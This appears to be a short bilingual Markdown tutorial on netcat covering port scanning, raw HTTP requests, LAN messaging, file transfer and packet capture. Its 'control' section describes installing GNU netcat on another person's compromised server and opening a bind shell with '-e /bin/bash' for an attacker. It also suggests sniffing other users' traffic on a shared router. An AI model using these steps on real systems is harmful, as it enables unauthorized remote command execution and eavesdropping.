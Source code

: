 # netcat introduction

<!-- TOC -->

- [netcat introduction](#netcat-introduction)
    - [scan port](#scan-port)
    - [instant message](#instant-message)
    - [simple download file](#simple-download-file)
    - [control](#control)
    - [package capture](#package-capture)

<!-- /TOC -->


## scan port

**nc=netcat**

scan port: `nc -z -v -w 1  www.baidu.com 70-90`

```bash
# output
nc: connect to www.itcast.cn port 78 (tcp) timed out: Operation now in progress
nc: connect to www.itcast.cn port 79 (tcp) timed out: Operation now in progress
Connection to www.itcast.cn 80 port [tcp/http] succeeded!
nc: connect to www.itcast.cn port 81 (tcp) timed out: Operation now in progress
nc: connect to www.itcast.cn port 82 (tcp) timed out: Operation now in progress
```

send information:

```bash
grey@GreyAli:~$ nc -v www.itcast.cn 80
Connection to www.itcast.cn 80 port [tcp/http] succeeded!
hello
```

```bash
# output
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head><title>400 Bad Request</title></head>
<body bgcolor="white">
<h1>400 Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<hr/>Powered by Tengine</body>
</html>
```

## instant message

```bash
# 局域网即时通讯
# server
nc -l 9999

# client
nc server_ip 9999

# 然后就可以互相发消息了
```

## simple download file

```bash
# server
nc -l 9999 < my_file.txt

# client
nc server_ip 9999 > new_file.txt
```

## control

`netcat`分两个版本: OpenBSD, GNU. 一般的Linux都是OpenBSD的netcat, 为了安全, 没有`-e`参数来执行命令

所以要使用GNU的netcat来肉鸡: [GNU netcat](http://netcat.sourceforge.net/)

```bash
# download
./configure
make
sudo make install
```

```bash
# server(肉鸡): 关键是在别人的服务器上安装GNU netcat
netcat -l 7777 -e /bin/bash

# client(攻击者): 然后可以执行各种命令
netcat server_ip 7777
``` 

## package capture

同一个路由器可以用wireshark, capture其他人的包;
> 只不过需要指定ip而已